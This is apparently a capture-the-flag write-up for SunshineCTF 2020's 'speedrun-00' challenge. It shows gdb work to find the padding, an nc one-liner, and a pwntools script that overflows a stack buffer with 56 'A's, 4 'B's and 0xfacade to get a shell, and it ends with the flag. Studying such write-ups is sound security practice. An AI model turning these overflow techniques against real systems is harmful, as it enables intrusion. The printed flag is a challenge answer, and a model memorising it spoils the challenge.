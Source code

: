 # speedrun-00
Points: **10 points**

nc chal.2020.sunshinectf.org 30000

## Sanic mode
My friend went ahead on that one, he told me it was a pwn chall and sent me the decompiled code, we used using ghidra-headless, he told me it was a buffer-overflow vuln and that we had to write a specific sequence to the stack.

Let's go, here's the main function:

![main.c](main-function.png "main source code")

As we have to adjust the padding to write, I launched it on gdb and sent a bunch of A's and checked the stack just before the first comparison:

```bash
$ pad 56
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ gdb ./chall_00
gdb-peda $ b* main+37
gdb-peda $ r 
Starting program: /hdd/ctf/sunshine/speedrun-00/chall_00
This is the only one
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Here's the disassemble of gdb and the stack:

![gdb disassemble of main](gdb_disassembly.png "gdb disassemble of main")

![gdb padding](gdb_padding.png "gdb output")

We are missing just 4 bytes, so we append 4 chars and then we have to write _0xfacade_. 

So, time to write the exploit. My friend that tried the chall earlier, successfully got the shell, but couldn't send commands because the file descriptor of the shell was closing, that's why we are going to use pwntools, but if you want to try it by hand, sending the payload via nc, using bash:

```bash
$ (echo some-payload ; cat) | nc chal.2020.sunshinectf.org 30000
```

Got it from: https://youtu.be/HSlhY4Uy8SA 

my pwntools code:

```python
#!/usr/bin/env python
from pwn import *

e = ELF('chall_00')
# io = e.process()
io = remote('chal.2020.sunshinectf.org', 30000)
# context.terminal = ['tmux', 'splitw','-h']
# gdb.attach(io)

io.recvuntil('one\n')

payload = b"A" * 56 + b"B"*4 + p32(0xfacade)
io.sendline(payload)

io.interactive()

```

![proof-of-concept](proof.png "proof of concept")

## Flag
sun{burn-it-down-6208bbc96c9ffce4}
